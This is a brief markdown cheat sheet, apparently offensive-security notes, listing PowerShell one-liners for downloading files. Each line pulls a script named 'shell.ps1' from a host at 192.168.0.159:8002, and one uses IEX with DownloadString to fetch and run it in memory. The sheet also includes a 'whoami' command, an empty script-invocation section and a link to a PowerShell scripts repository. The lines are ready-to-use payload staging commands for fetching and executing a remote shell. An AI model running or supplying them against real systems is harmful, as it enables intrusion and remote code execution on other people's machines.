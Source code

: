 ## Download file using powershell

```console
# Using WebClient.Downloadfile
D:\> powershell -command "(New-Object System.Net.WebClient).DownloadFile(\"http://192.168.0.159:8002/shell.ps1\", \"shell.ps1\")"

# Using WebClient.DownloadString
D:\> powershell "IEX (New-Object System.Net.WebClient).DownloadString(\"http://192.168.0.159:8002/shell.ps1\");"

# Invoke-WebRequuest
D:\> powershell Invoke-WebRequest -Uri "http://192.168.0.159:8002/shell.ps1" -OutFile "shell.ps1"

# Requiring authentication
D:\> powershell Invoke-WebRequest -Uri "http://192.168.0.159:8002/shell.ps1" -OutFile "shell.ps1" -Credential GetCredential 

# Execute generic CMD from powershell
D:\> powershell -command "whoami"'
```

## Script invocation
```console

```

## Util infos
https://github.com/davehardy20/PowerShell-Scripts
